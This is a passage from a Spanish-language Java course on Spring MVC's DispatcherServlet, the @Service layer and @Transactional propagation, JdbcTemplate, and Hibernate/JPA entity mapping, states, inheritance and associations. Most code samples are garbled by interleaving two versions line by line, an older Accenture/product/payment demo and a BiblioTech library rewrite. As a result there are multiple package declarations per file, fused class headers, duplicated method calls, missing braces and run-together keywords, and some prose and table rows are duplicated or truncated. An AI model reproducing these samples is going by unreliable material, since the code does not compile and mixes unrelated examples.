Cada método atiende una operación RESTful (@GetMapping, @PostMapping, @DeleteMapping) delegando la lógica de negocio al servicio correspondiente.
6.3 Respuestas Semánticas y Cabecera Location
ResponseEntity permite controlar con precisión los códigos de estado HTTP (200 OK, 201 Created con cabecera Location, 204 No Content) y los encabezados de respuesta.
6.4 Arquitectura Interna de Spring MVC: El Ciclo de Vida del DispatcherServlet
¿Cómo sabe Spring qué método de Java ejecutar cuando un usuario hace clic en su navegador?
El DispatcherServlet es como el Jefe de Recepción de un gran hotel de lujo:
Llega un huésped por la puerta principal (una petición HTTP a GET /api/v1/libros/42).
El recepcionista consulta su libro de reservas (HandlerMapping) para averiguar qué conserje o departamento especializado debe atenderlo. Encuentra que corresponde a LibroController.obtenerPorId().
Llama a un botones (HandlerAdapter) para que prepare la llave y los datos (convierte el texto "42" en un Long de Java con @PathVariable).
El controlador llama a cocina (LibroService) para preparar el plato.
El recepcionista toma el resultado, lo coloca en una bandeja de plata sellada (lo convierte a JSON con Jackson) y se lo entrega al huésped con una sonrisa y un código 200 OK.
Spring MVC implementa el patrón Front Controller a través del DispatcherServlet, que orquesta todo el procesamiento concurrente y escalable de peticiones HTTP empresariales:
Spring MVC implementa este patrón Front Controller a través del DispatcherServlet, que orquesta todo el procesamiento concurrente y escalable de peticiones HTTP empresariales:
Recepción: La petición HTTP entrante llega al contenedor embebido (Tomcat) y se delega al DispatcherServlet.
Mapeo de Ruta (HandlerMapping): El DispatcherServlet consulta el registro de rutas para asociar la URL y el método HTTP al método específico del @RestController.
Adaptador de Ejecución (HandlerAdapter): El HandlerAdapter gestiona la invocación, resolviendo argumentos (como @RequestBody o @PathVariable) mediante deserializadores JSON (HttpMessageConverter con Jackson).
Invocación de Servicio: Se ejecuta la lógica de negocio delegada a la capa @Service.
Serialización Directa: Al estar anotado con @RestController, el valor retornado (ej. ResponseEntity<DTO>) se serializa a JSON directamente en el flujo de salida HTTP con su código de estado (200, 201, 204).
6.5 Spring Web Services: Arquitectura de Servicios Web RESTful (Spring MVC) vs SOAP (Spring-WS)
En el ecosistema empresarial Java, el concepto de Web Service abarca dos paradigmas principales para la integración de sistemas y microservicios:
Característica
Servicios Web SOAP (Spring-WS)
Servicios Web RESTful (Spring MVC)
Módulo Spring
Spring-WS (enfocado en aproximación Contract-First).
Spring Web / Spring MVC (controladores con @RestController).
Formato de Mensaje
Sobres XML estrictos (Envelope, Header, Body) validados contra esquemas .xsd.
Cargas ligeras (principalmente JSON vía Jackson, o XML opcional).
Definición de Contrato
Contrato formal en WSDL (Web Services Description Language).
Especificación OpenAPI 3.0 / Swagger UI y semántica HTTP.
Protocolo de Transporte
Independiente del transporte (HTTP, SMTP, JMS, colas MQ).
Estrechamente acoplado y optimizado sobre el protocolo HTTP/HTTPS.
Estándares de Seguridad
WS-Security a nivel de mensaje (cifrado y firma de nodos XML).
Seguridad a nivel de transporte (TLS/HTTPS) y tokens criptográficos (JWT, OAuth2).
Consumo de Clientes
WebServiceTemplate enviando payloads XML marshaller/unmarshaller.
RestClient (moderno en Spring Boot 3) y RestTemplate (clásico).
Tema 7 — Capa de Servicio e Inyección por Constructor
La capa de servicio encapsula las reglas de negocio del sistema de forma independiente de los detalles de entrega HTTP o persistencia SQL. En este tema dominarás la inyección por constructor de dependencias inmutables, el desacoplamiento con DTOs y la gestión transaccional declarativa con @Transactional (propiedades ACID y modos de propagación).
7.1 Responsabilidad de la Capa @Service
La capa @Service concentra las reglas de negocio, políticas operativas y coordinación entre repositorios, manteniéndose completamente aislada de la capa web.
7.2 Inyección de Dependencias por Constructor
Debe recibir sus dependencias exclusivamente por constructor, facilitando el testing unitario con dobles (mocks) y garantizando la inmutabilidad de referencias.
7.3 Gestión Declarativa de Transacciones (@Transactional)
La anotación @Transactional(readOnly = true) optimiza lecturas en la base de datos, mientras que en métodos mutacionales asegura la atomicidad y rollback automático ante excepciones.
7.4 Transacciones Empresariales: Propiedades ACID, Propagación y Rollback
En la capa de servicio se demarcan los límites transaccionales declarativos mediante @Transactional para garantizar las propiedades ACID (Atomicidad, Consistencia, Aislamiento y Durabilidad):
Propagation.REQUIRED (por defecto): Se ejecuta dentro de la transacción activa; si no existe ninguna, crea una nueva.
Propagation.REQUIRES_NEW: Suspende cualquier transacción previa y abre una transacción independiente obligatoria (ideal para logs de auditoría que deben persistir incluso si la transacción principal falla).
Reglas de Rollback (rollbackFor): Por defecto, Spring solo ejecuta rollback ante excepciones no comprobadas (subclases de RuntimeException). Para excepciones comprobadas (checked Exception), es imperativo indicar rollbackFor = Exception.class.
Optimización de Lectura: Anotar con @Transactional(readOnly = true) en consultas desactiva el dirty checking de Hibernate en memoria, reduciendo consumo de CPU.
package com.accenture.demo.service;
package com.libreria.service;
package com.bibliotech.service;
import com.libreria.entity.Libro;
import com.libreria.entity.PrestamoLibro;
import com.libreria.repository.LibroRepository;
import com.libreria.repository.PrestamoRepository;
import com.bibliotech.entity.Libro;
import com.bibliotech.entity.PrestamoLibro;
import com.bibliotech.repository.LibroRepository;
import com.bibliotech.repository.PrestamoRepository;
import com.bibliotech.exception.LibroNotFoundException;
import org.springframework.stereotype.Service;
import org.springframework.transaction.annotation.Propagation;
import org.springframework.transaction.annotation.Transactional;
import java.time.LocalDate;
@Servicepublic classTransferenciaService {
public classPrestamoLibroService {
private finalCuentaRepository cuentaRepo;
private finalAuditoriaService auditoriaRepo;
private finalLibroRepository libroRepo;
private finalPrestamoRepository prestamoRepo;
private finalAuditoriaPrestamoService auditoriaService;
publicTransferenciaService(CuentaRepository c, AuditoriaService a) {
this.cuentaRepo = c;
this.auditoriaRepo = a;
publicPrestamoLibroService(LibroRepository l, PrestamoRepository p, AuditoriaPrestamoService a) {
this.libroRepo = l;
this.prestamoRepo = p;
this.auditoriaService = a;
}
// Operación transaccional ACID: Garantiza que o se registra TODO o se revierte TODO@Transactional(propagation = Propagation.REQUIRED, rollbackFor = Exception.class)
public voidejecutarTransferencia(Long origenId, Long destinoId, Double monto) throwsException {
cuentaRepo.debitar(origenId, monto);
cuentaRepo.acreditar(destinoId, monto);
// El servicio de auditoría utiliza REQUIRES_NEW para garantizar persistencia independiente
auditoriaRepo.registrarOperacion(origenId, destinoId, monto);
publicPrestamoLibroformalizarPrestamo(Long libroId, Long lectorId) throwsException {
Libro libro = libroRepo.findById(libroId)
.orElseThrow(() -> newRecursoNoEncontradoException("Libro no disponible para préstamo"));
.orElseThrow(() -> newLibroNotFoundException(libroId));
// 1. Descuenta el ejemplar disponible
libro.decrementarEjemplares();
// 2. Crea el registro del préstamoPrestamoLibro prestamo = newPrestamoLibro(null, LocalDate.now(), LocalDate.now().plusDays(14), lectorId, libro);
PrestamoLibro guardado = prestamoRepo.save(prestamo);
// 3. El servicio de auditoría utiliza REQUIRES_NEW para garantizar persistencia independiente
auditoriaService.registrarOperacion("PRESTAMO_CONFIRMADO", libroId, lectorId);
return guardado;
}
}
7.5 Acceso a Datos en Spring: De JDBC Tradicional y JdbcTemplate a Spring Data JPA
Para comprender por qué Spring Data JPA revolucionó el desarrollo empresarial, es fundamental conocer la evolución de las técnicas de persistencia relacional en el ecosistema Java:
El dolor del JDBC Tradicional (Java Database Connectivity):
En los inicios de Java EE, interactuar con una base de datos requería escribir decenas de líneas repetitivas (boilerplate): abrir manualmente la conexión (Connection), compilar la sentencia (PreparedStatement), iterar el cursor (ResultSet) para extraer columna por columna a mano (rs.getString("titulo")) y cerrar obligatoriamente todos los recursos en bloques finally para no agotar el pool de conexiones. Además, JDBC arrojaba la excepción comprobada (checked exception) java.sql.SQLException, obligando a atraparla en cada método y acoplando el código de negocio a los códigos de error específicos de cada fabricante de base de datos (Oracle, MySQL, PostgreSQL).
La solución de Spring Framework: JdbcTemplate:
Spring introdujo el patrón de diseño Template Method mediante la clase JdbcTemplate. Spring se encarga de abrir la conexión del DataSource, compilar la sentencia SQL, mapear los tipos de datos, traducir excepciones y cerrar los recursos de forma transparente. Para convertir cada fila del ResultSet en una instancia de dominio Java, Spring proporciona la interfaz funcional RowMapper<T>:
package com.bibliotech.repository;
import com.bibliotech.model.Libro;
import org.springframework.jdbc.core.JdbcTemplate;
import org.springframework.jdbc.core.RowMapper;
import org.springframework.stereotype.Repository;
import java.util.List;
import java.util.Optional;
@Repositorypublic classLibroJdbcRepository {
private finalJdbcTemplate jdbcTemplate;
// Inyección del DataSource preconfigurado por Spring BootpublicLibroJdbcRepository(JdbcTemplate jdbcTemplate) {
this.jdbcTemplate = jdbcTemplate;
}
// RowMapper: Mapea cada tupla de la consulta SQL al modelo de dominio Libroprivate finalRowMapper<Libro> libroRowMapper = (rs, rowNum) -> {
Libro libro = newLibro();
libro.setId(rs.getLong("id"));
libro.setIsbn(rs.getString("isbn"));
libro.setTitulo(rs.getString("titulo"));
libro.setPrecio(rs.getBigDecimal("precio"));
return libro;
};
publicOptional<Libro> buscarPorIsbn(String isbn) {
String sql = "SELECT id, isbn, titulo, precio FROM libros WHERE isbn = ?";
List<Libro> resultados = jdbcTemplate.query(sql, libroRowMapper, isbn);
return resultados.stream().findFirst();
}
}
La Jerarquía Unificada de Excepciones: DataAccessException:
Una de las mayores innovaciones del acceso a datos en Spring es su traductor automático de excepciones. Spring intercepta cualquier SQLException nativa del proveedor SQL y la traduce a una subclase de org.springframework.dao.DataAccessException (que es una excepción no comprobada / RuntimeException).
DuplicateKeyException: Se produce al violar una restricción de unicidad (por ejemplo, intentar insertar un libro con un ISBN ya existente en BiblioTech).
DataIntegrityViolationException: Se produce al violar una clave foránea (intentar asociar un libro a un autor inexistente) o una restricción NOT NULL.
CannotAcquireLockException: Se produce por interbloqueos (deadlocks) o tiempos de espera de bloqueo en transacciones concurrentes.
Esta jerarquía garantiza que tu código de servicio o controlador nunca quede acoplado al motor de base de datos: la misma excepción se lanzará tanto si trabajas con Oracle como con PostgreSQL, MySQL o H2.
El salto definitivo: De JdbcTemplate a Spring Data JPA:
Aunque JdbcTemplate simplificó enormemente JDBC, aún requería redactar sentencias SQL a mano y mapear relaciones complejas (un libro con sus autores, categorías y préstamos). Como verás en los Temas 8 y 9, Spring Data JPA culmina este camino unificando el motor ORM (Hibernate) con repositorios automáticos (JpaRepository<Libro, Long>), permitiendo persistir grafos de objetos completos sin redactar código de infraestructura.
Tema 8 — Hibernate y Mapeo Objeto-Relacional (JPA)
El Mapeo Objeto-Relacional (ORM) con Hibernate actúa de puente entre el modelo de datos relacional y las clases Java. Este tema aborda la arquitectura core (SessionFactory, Session, dialectos), el mapeo de tablas y componentes embebidos (@Embeddable), los cuatro estados de una entidad en el contexto de persistencia, estrategias de herencia y operaciones CRUD con Spring Data.
Antes de que existieran los frameworks ORM como Hibernate, los desarrolladores Java utilizaban JDBC puro. Para leer un simple libro de la base de datos, tenían que:
Abrir una conexión TCP a la base de datos y manejar errores de red.
Escribir la consulta SQL en una cadena de texto propensa a erratas: "SELECT id, titulo, isbn, precio FROM libros WHERE id = ?".
Ejecutar la query y recorrer un cursor llamado ResultSet: libro.setId(rs.getLong("id")); libro.setTitulo(rs.getString("titulo")); ... mapeando a mano cada columna.
Cerrar manualmente la conexión en un bloque finally para no saturar el servidor.
El dolor: Si la tabla cambiaba de nombre o agregabas una columna, tenías que buscar y reescribir decenas de consultas SQL a mano en ficheros de texto. JPA y Hibernate automatizan este 100%: tú trabajas con objetos Java normales (Libro libro = repo.findById(1L);), y el ORM se encarga de generar el SQL perfecto optimizado para tu motor (PostgreSQL, Oracle o H2).
8.1 Introducción a Hibernate y Arquitectura Core
Hibernate es el framework de Mapeo Objeto-Relacional (ORM) más extendido en el ecosistema Java y la implementación de referencia del estándar Jakarta Persistence (JPA). Su propósito es erradicar la disparidad de impedancia (impedance mismatch) entre el modelo relacional de tablas SQL y el modelo orientado a objetos de Java.
Arquitectura Interna y Componentes Clave:
SessionFactory (EntityManagerFactory en JPA): Objeto singleton inmutable y thread-safe creado al arrancar la aplicación. Almacena la configuración global, mapeos de entidades, pool de conexiones y la Caché de Segundo Nivel.
Session (EntityManager en JPA): Objeto liviano y no thread-safe que representa una conversación o unidad de trabajo con la base de datos (Contexto de Persistencia y Caché de Primer Nivel). Se abre y se destruye en cada petición o transacción.
Dialect (Dialecto SQL): Abstracción que traduce las consultas HQL/JPQL al dialecto específico de cada motor (PostgreSQL, MySQL, Oracle, H2), aprovechando optimizaciones nativas de paginación (LIMIT / OFFSET) y tipos de datos propietarios.
Jakarta Persistence (JPA) define un conjunto estandarizado de anotaciones para declarar cómo los objetos Java se corresponden con el esquema relacional SQL sin escribir sentencias DDL manuales.
Catálogo Completo de Anotaciones de Mapeo JPA:
Anotación JPA
Nivel
Propósito Técnico y Parámetros Clave
@Entity
Clase
Declara que la clase Java es una entidad persistente gestionada por el EntityManager. Requiere constructor público o protegido sin argumentos.
@Table
Clase
Personaliza la tabla física en base de datos. Parámetros: name (nombre de tabla), schema, uniqueConstraints e indexes.
@Id
Atributo / Getter
Declara el identificador de la entidad correspondiente a la Clave Primaria (PK) en la tabla relacional.
@GeneratedValue
Atributo / Getter
Define la estrategia de generación del ID: IDENTITY (autoincrement del motor), SEQUENCE (secuencias de PostgreSQL/Oracle), TABLE o AUTO.
Mapea un Enum Java. Regla crítica: Usar siempre EnumType.STRING para guardar el texto del enum. Evitar EnumType.ORDINAL porque guardar índices numéricos corrompe los datos si se reordenan los valores.
@Transient
Atributo
Indica que el atributo es puramente de memoria (cálculos auxiliares, campos transitorios) y no debe persistirse como columna en la base de datos.
@Lob
Atributo
Mapea objetos grandes (Large Objects): String o char[] se mapean a CLOB (texto largo ilimitado), y byte[] a BLOB (ficheros o imágenes binarias).
@Version
Atributo
Habilita el Bloqueo Optimista (Optimistic Locking). Hibernate incrementa automáticamente este campo entero en cada UPDATE, lanzando OptimisticLockException si detecta modificaciones concurrentes perdidas.
@Embeddable
Clase
Declara un Objeto de Valor (Value Object) reutilizable sin identidad propia ni tabla independiente. Sus atributos se incrustan como columnas en la tabla propietaria.
@Embedded
Atributo
Se coloca en la entidad propietaria sobre el campo cuyo tipo está anotado con @Embeddable. Permite usar @AttributeOverride para renombrar columnas si hay colisión.
Ejemplo de Producción: Entidad Completa con Anotaciones JPA
Ejemplo de Producción en BiblioTech: Entidad Libro con Anotaciones JPA
package com.accenture.demo.entity;
package com.libreria.entity;
import jakarta.persistence.*;
import lombok.*;
import java.math.BigDecimal;
import java.time.LocalDateTime;
// Objeto de Valor incrustable sin tabla independiente// Objeto de Valor incrustable sin tabla independiente: dimensiones del libro@Embeddable@Getter@Setter@NoArgsConstructor@AllArgsConstructorpublic classDimensiones {
privateDouble alto;
privateDouble ancho;
privateDouble profundidad;
public classDimensionesLibro {
privateDouble altoCm;
privateDouble anchoCm;
privateDouble grosorCm;
privateInteger pesoGramos;
}
public enumEstadoProducto {
BORRADOR, PUBLICADO, AGOTADO, DESCATALOGADO
public enumEstadoLibro {
DISPONIBLE, PRESTADO, EN_REVISION, DESCATALOGADO
}
// Entidad persistente principal mapeada a tabla SQL// Entidad persistente central de BiblioTech mapeada a la tabla 'libros'@Entity@Table(
name = "productos",
indexes = { @Index(name = "idx_prod_sku", columnList = "sku") }
name = "libros",
indexes = { @Index(name = "idx_libro_isbn", columnList = "isbn") }
)
@Getter@Setter@NoArgsConstructor@AllArgsConstructorpublic classProducto {
public classLibro {
@Id@GeneratedValue(strategy = GenerationType.IDENTITY)
privateLong id;
@Column(name = "sku", nullable = false, unique = true, length = 30)
privateString codigoSku;
@Column(nullable = false, unique = true, length = 20)
privateString isbn;
@Column(nullable = false, length = 150)
privateString nombre;
privateString titulo;
@Lob@Column(columnDefinition = "TEXT")
privateString descripcionLarga; // CLOB: Texto sin límite de 255 caracteresprivateString sinopsis; // CLOB: Texto descriptivo sin límite de 255 caracteres@Column(nullable = false, precision = 10, scale = 2)
privateBigDecimal precio;
// Mapeo seguro de enumerados como String ("PUBLICADO" en vez de 1)// Mapeo seguro de enum como String ("DISPONIBLE" en vez del ordinal numérico 0)@Enumerated(EnumType.STRING)
@Column(nullable = false, length = 20)
privateEstadoProducto estado = EstadoProducto.BORRADOR;
privateEstadoLibro estado = EstadoLibro.DISPONIBLE;
// Incrusta las columnas alto, ancho y profundidad en la tabla 'productos'// Incrusta alto_cm, ancho_cm, grosor_cm y peso_gramos como columnas en la tabla 'libros'@EmbeddedprivateDimensiones dimensiones = newDimensiones();
privateDimensionesLibro dimensiones = newDimensionesLibro();
// Bloqueo optimista: Previene sobreescrituras concurrentes (Lost Updates)// Bloqueo optimista: Previene reservas simultáneas del mismo ejemplar (Lost Updates)@VersionprivateLong version;
// Campo de cálculo puramente en memoria: NO se crea columna en SQL// Campo transitorio de cálculo en memoria: NO genera columna física en SQL@Transientpublic booleanisDisponibleParaVenta() {
returnEstadoProducto.PUBLICADO.equals(this.estado);
public booleanisAptoParaPrestamo() {
returnEstadoLibro.DISPONIBLE.equals(this.estado);
}
}
8.3 Trabajo con Objetos: Los 4 Estados y Contexto de Persistencia
El Contexto de Persistencia (Persistence Context) gestionado por el EntityManager / Session actúa como un área de memoria intermedia en la que cada instancia de entidad transita por 4 estados fundamentales:
Estado de la Entidad
Presencia en BD
Asociada al EntityManager
Comportamiento de Hibernate
Transient (Nuevo / Transitorio)
No
No
Instancia creada con new. Sin ID asignado. Si se pierde su referencia, el recolector de basura (GC) la destruye.
Persistent / Managed (Gestionado)
Sí (o pendiente en commit)
Sí
Posee ID y está registrada en el Contexto de Persistencia. Dirty Checking: Cualquier modificación en sus campos mediante setters se sincroniza automáticamente con la base de datos al confirmar la transacción (no hace falta llamar a save).
Detached (Desconectado)
Sí
No
Tiene ID en la base de datos, pero la sesión/transacción donde se obtuvo ha finalizado (o se ejecutó detach() o clear()). Modificarla no tiene efecto en base de datos salvo que se reintegre mediante merge().
Removed (Marcado para Borrado)
Aún en BD (hasta flush)
Sí
Entidad programada para su eliminación definitiva mediante DELETE al vaciar el contexto (flush o commit).
// Ejemplo de transiciones de estado en el EntityManagerProducto p = newProducto(); // Estado: TRANSIENT
p.setNombre("Teclado Mecánico");
// Ejemplo de transiciones de los 4 estados en el EntityManager para un LibroLibro libro = newLibro(); // Estado: TRANSIENT (solo vive en memoria RAM)
libro.setTitulo("Domain-Driven Design");
libro.setIsbn("978-0321125217");
em.persist(p); // Estado: PERSISTENT (Managed). Hibernate le asigna ID
em.persist(libro); // Estado: PERSISTENT / MANAGED. Hibernate genera el ID y vigila sus cambios
p.setPrecio(BigDecimal.valueOf(89.99)); // Dirty Checking detectará el cambio automáticamente
libro.setPrecio(BigDecimal.valueOf(49.99)); // Dirty Checking: actualizará la BD sin llamar a save()
em.flush(); // Sincroniza sentencias SQL en la BD sin cerrar la transacción
em.detach(p); // Estado: DETACHED. Ya no está gestionada
em.detach(libro); // Estado: DETACHED. Ya no está vinculada al EntityManager
p.setPrecio(BigDecimal.valueOf(49.99)); // Este cambio NO se guardará en BD
libro.setPrecio(BigDecimal.valueOf(19.99)); // Este cambio NO se reflejará en la base de datosProducto reconectado = em.merge(p); // Estado: PERSISTENT nuevamente (copia gestionada)
em.remove(reconectado); // Estado: REMOVED. Se borrará al hacer commit
Libro reconectado = em.merge(libro); // Estado: PERSISTENT nuevamente (copia gestionada devuelta)
em.remove(reconectado); // Estado: REMOVED. Se ejecutará DELETE al hacer commit
8.4 Mapeo de Herencia en Hibernate (@MappedSuperclass, SINGLE_TABLE, JOINED)
Dado que las bases de datos relacionales carecen del concepto nativo de herencia de clases, JPA y Hibernate ofrecen estrategias de mapeo polimórfico:
1. @MappedSuperclass: Define una superclase abstracta con atributos compartidos (ej. id, fechaCreacion). No es una entidad, no genera tabla en BD y sus columnas se replican en las tablas hijas.
2. InheritanceType.SINGLE_TABLE (Estrategia por defecto): Toda la jerarquía de clases se mapea en una única tabla física. Requiere una columna discriminadora (@DiscriminatorColumn) para indicar el tipo concreto. Muy rápida (sin JOINs), pero las columnas de las subclases deben permitir nulos (nullable = true).
3. InheritanceType.JOINED: Cada clase (padre e hijas) tiene su propia tabla normalizada. La tabla hija utiliza como clave primaria y foránea (FK) la misma clave de la tabla padre. Realiza sentencias JOIN en consultas polimórficas.
4. InheritanceType.TABLE_PER_CLASS: Genera una tabla independiente por cada clase concreta conteniendo todos los atributos. Consultas sobre la clase base requieren sentencias UNION más costosas.
package com.accenture.demo.entity.herencia;
package com.libreria.entity.herencia;
import jakarta.persistence.*;
import lombok.Getter;
import lombok.Setter;
import java.math.BigDecimal;
// ── ESTRATEGIA JOINED: Tablas normalizadas vinculadas por clave primaria ──// ── ESTRATEGIA JOINED EN BIBLIOTECH: Jerarquía de publicaciones editoriales ──@Entity@Table(name = "pagos")
@Table(name = "publicaciones")
@Inheritance(strategy = InheritanceType.JOINED)
@Getter@Setterpublic abstract classPago {
public abstract classPublicacion {
@Id@GeneratedValue(strategy = GenerationType.IDENTITY)
privateLong id;
privateDouble monto;
privateString isbn;
privateString titulo;
privateBigDecimal precio;
}
// Tabla física 'libros_fisicos' vinculada por FK = publicaciones.id@Entity@Table(name = "pagos_tarjeta")
public classPagoTarjetaextendsPago {
privateString ultimosDigitos;
privateString pasarela;
@Table(name = "libros_fisicos")
public classLibroFisicoextendsPublicacion {
privateInteger numeroPaginas;
privateString ubicacionEstanteria;
privateInteger ejemplaresDisponibles;
}
// Tabla física 'libros_digitales' vinculada por FK = publicaciones.id@Entity@Table(name = "pagos_transferencia")
public classPagoTransferenciaextendsPago {
privateString ibanOrigen;
privateString codigoSwift;
@Table(name = "libros_digitales")
public classLibroDigitalextendsPublicacion {
privateDouble tamanoArchivoMb;
privateString formatoDescarga; // EPUB, PDFprivateBoolean tieneDrm;
}
8.5 Operaciones CRUD Completas con Hibernate y Spring Data
Al extender JpaRepository<T, ID>, Spring Data JPA provee la implementación automática de las operaciones CRUD fundamentales gestionadas en la sesión de Hibernate:
package com.accenture.demo.service;
import com.accenture.demo.entity.Libro;
import com.accenture.demo.repository.LibroRepository;
import org.springframework.stereotype.Service;
import org.springframework.transaction.annotation.Transactional;
import java.util.List;
@Servicepublic classLibroService {
private finalLibroRepository repository;
publicLibroService(LibroRepository repository) {
this.repository = repository;
}
// CREATE: Inserción de nueva entidad@TransactionalpublicLibrocrear(Libro l) {
return repository.save(l); // Ejecuta INSERT si id es null
}
// READ: Consulta por identificador@Transactional(readOnly = true)
publicLibrobuscarPorId(Long id) {
return repository.findById(id)
.orElseThrow(() -> newEntityNotFoundException("Libro no encontrado: " + id));
}
// UPDATE: Dirty checking automático de Hibernate al hacer commit@TransactionalpublicLibroactualizarPrecio(Long id, Double nuevoPrecio) {
Libro libro = buscarPorId(id);
libro.setPrecio(java.math.BigDecimal.valueOf(nuevoPrecio));
return repository.save(libro);
}
// DELETE: Eliminación en cascada o individual@Transactionalpublic voideliminar(Long id) {
if (!repository.existsById(id)) {
throw newEntityNotFoundException("ID inexistente");
}
repository.deleteById(id);
}
}
Bloque 3: Persistencia Avanzada y DTOs

Figura 4: Contenido del Bloque 3 — Mapeo de entidades, consultas orientadas a objetos con JPQL, transferencia de datos con DTOs y Spring Data JPA.
Objetivos de Aprendizaje — Bloque 3
Configurar relaciones @OneToMany y @ManyToOne bidireccionales con mappedBy.Entender por qué FetchType.LAZY es la estrategia correcta para colecciones.Escribir consultas orientadas a objetos con JPQL y parámetros nombrados.Implementar el patrón DTO para desacoplar completamente la API de la base de datos.Extender JpaRepository y utilizar Derived Query Methods.
🗄️ Conceptos Clave del Bloque 3 — Persistencia Avanzada y DTOs
Concepto
Definición Técnica y Ejemplo Práctico
Mapeo de Asociaciones (@OneToMany, @ManyToOne, etc.)
Representación orientada a objetos de claves foráneas relacionales. En asociaciones bidireccionales, el lado con la clave foránea física define @JoinColumn (lado propietario) y el lado inverso especifica mappedBy para no duplicar columnas. Ejemplo: @OneToMany(mappedBy = "departamento", cascade = CascadeType.ALL, orphanRemoval = true) private List<Empleado> empleados;.
Ejemplo: En BiblioTech, @OneToMany(mappedBy = "autor", cascade = CascadeType.ALL, orphanRemoval = true) private List<Libro> libros; vincula al autor con todas sus obras en cascada.
Consultas Avanzadas (JPQL, SQL Nativo y Criteria API)
JPQL consulta sobre entidades de dominio (SELECT l FROM Libro l WHERE l.precio > :p); SQL Nativo (nativeQuery = true) envía sentencias directas al motor SQL; y Criteria API construye consultas programáticas y tipadas en tiempo de compilación. Ejemplo: @Query("SELECT e FROM Empleado e WHERE e.salario >= :min") List<Empleado> findPorSalario(@Param("min") Double min);Ejemplo: @Query("SELECT l FROM Libro l WHERE l.precio >= :min") List<Libro> findPorPrecioMinimo(@Param("min") BigDecimal min);
Optimización en Hibernate (Solución N+1 con JOIN FETCH)
El antipatrón N+1 surge al cargar N entidades y disparar N consultas secundarias individuales para leer sus relaciones perezosas (FetchType.LAZY). Se resuelve forzando un único viaje a la BD mediante JOIN FETCH o grafos @EntityGraph. Ejemplo: SELECT a FROM Autor a JOIN FETCH a.libros reduce 101 consultas SQL automáticas a una única sentencia con LEFT JOIN.
Caché L1 y L2, Batching
Niveles de optimización: Caché L1 (nivel de sesión/transacción, evita re-consultar la misma entidad); Caché L2 (global entre sesiones, ej. Redis); y Batching (agrupa inserciones/actualizaciones en lotes de red con hibernate.jdbc.batch_size=50). Ejemplo: Guardar 500 entidades con batch de 50 genera únicamente 10 viajes de red TCP a la base de datos en vez de 500.
Ejemplo en BiblioTech: Importar un catálogo de 500 libros con batch de 50 genera únicamente 10 viajes de red TCP a PostgreSQL en vez de 500.
Desacoplamiento con el Patrón DTO
Separación estricta entre las entidades de la base de datos y los contratos públicos de la API. Impide la exposición no autorizada de campos sensibles (hashes, claves internas) y corta de raíz los bucles recursivos de serialización JSON. Ejemplo: Entidad Usuario tiene passwordHash; el endpoint retorna UsuarioDTO(id, nombre, email) sin exponer credenciales.
Ejemplo en BiblioTech: La entidad de socios Usuario contiene passwordHash; el endpoint retorna un record inmutable UsuarioResponseDTO(id, nombre, email) sin exponer credenciales.
Java Records como DTOs Inmutables
Implementación compacta e inmutable de objetos de transferencia en Java 16+. Son seguros en entornos concurrentes, generan automáticamente métodos de acceso directo y se integran sin configuración con Jackson. Ejemplo: public record PedidoResumenDTO(Long id, BigDecimal importe, String estado) {}.
Ejemplo: public record LibroResumenDTO(Long id, String titulo, BigDecimal precio) {}.
Tema 9 — Asociaciones, Consultas y Optimización en Hibernate
Modelar relaciones entre entidades relacionales requiere precisión para evitar cuellos de botella en base de datos. En este tema aprenderás a configurar asociaciones 1:1, 1:N y N:M con @JoinTable, escribir consultas portables con JPQL y consultas nativas, y aplicar técnicas de optimización críticas como la eliminación del problema N+1 con JOIN FETCH y el uso de cachés L1/L2.
¿Cómo viajan los datos cuando un autor tiene 50 libros?
Asociaciones en Java: En lugar de guardar números de ID a mano como harías en SQL, en Java vinculas objetos directamente: libro.setAutor(autor); o autor.getLibros().add(libro);. Hibernate se encarga de guardar la clave foránea física en la columna autor_id de la tabla de libros.
El Problema N+1 (La pesadilla del rendimiento): Imagina un camarero inexperto. En una mesa hay 20 comensales (20 autores). El camarero va a la cocina 1 vez a tomar la comanda. Luego, para saber qué pide cada autor, ¡hace 20 viajes individuales a la cocina, uno por cada autor! (1 consulta para los autores + 20 consultas individuales para sus libros = 21 viajes de red).
La Solución con JOIN FETCH: El camarero profesional va a la cocina con un carrito y en un único viaje (una única sentencia SQL con LEFT JOIN) trae todos los autores con sus libros de golpe.
9.1 Mapeo de Asociaciones: @OneToOne, @ManyToOne y @OneToMany
En Hibernate, el mapeo de asociaciones traduce las relaciones entre tablas del modelo relacional a referencias entre objetos Java.
Lado Propietario (Owner): La entidad que contiene físicamente la columna de clave foránea (FK) en SQL. Se anota con @JoinColumn(name = "fk_id"). En relaciones 1:N, el lado @ManyToOne es siempre el propietario.
Lado Inverso (Inverse): Contiene la colección o referencia inversa sin clave foránea física en su tabla. Se anota con mappedBy = "nombrePropiedadEnLadoPropietario".
Propagación de Operaciones (Cascading): cascade = CascadeType.ALL propaga las operaciones del ciclo de vida (persist, merge, remove) del padre a sus hijos. orphanRemoval = true garantiza que si un hijo se quita de la lista en memoria, Hibernate ejecuta un DELETE automático en BD.
Carga Diferida Obligatoria: Siempre debe definirse fetch = FetchType.LAZY. En JPA, @ManyToOne y @OneToOne son EAGER por defecto, lo que provoca consultas masivas innecesarias si no se configuran explícitamente como LAZY.
// Lado Padre (No dueño de la foreign key en SQL)@Entitypublic classAutor {
@Id@GeneratedValue(strategy = GenerationType.IDENTITY)
privateLong id;
privateString nombre;
@OneToMany(mappedBy = "autor", cascade = CascadeType.ALL, orphanRemoval = true, fetch = FetchType.LAZY)
privateList<Libro> libros = newArrayList<>();
}
// Lado Hijo (Dueño de la foreign key en SQL)@Entitypublic classLibro {
@Id@GeneratedValue(strategy = GenerationType.IDENTITY)
privateLong id;
privateString titulo;
@ManyToOne(fetch = FetchType.LAZY)
@JoinColumn(name = "autor_id", nullable = false)
privateAutor autor;
}
9.2 Mapeo de Asociaciones: @ManyToMany y Tablas de Unión
Cuando varias filas de una tabla se asocian con múltiples filas de otra (ej. Curso y Estudiante), el modelo relacional requiere una tabla asociativa o de unión. En JPA se modela mediante @ManyToMany y @JoinTable. Es una buena práctica estricta utilizar colecciones Set<T> en lugar de List<T> para prevenir la eliminación y reinserción masiva de filas en Hibernate:
Cuando varias filas de una tabla se asocian con múltiples filas de otra (ej. un Libro pertenece a varias Categorias y cada categoría contiene múltiples libros), el modelo relacional requiere una tabla asociativa o de unión. En JPA se modela mediante @ManyToMany y @JoinTable. Es una buena práctica estricta utilizar colecciones Set<T> en lugar de List<T> para prevenir la eliminación y reinserción masiva de filas en Hibernate:
@Entity@Table(name = "cursos")
public classCurso {
package com.libreria.entity;
import jakarta.persistence.*;
import lombok.Getter;
import lombok.Setter;
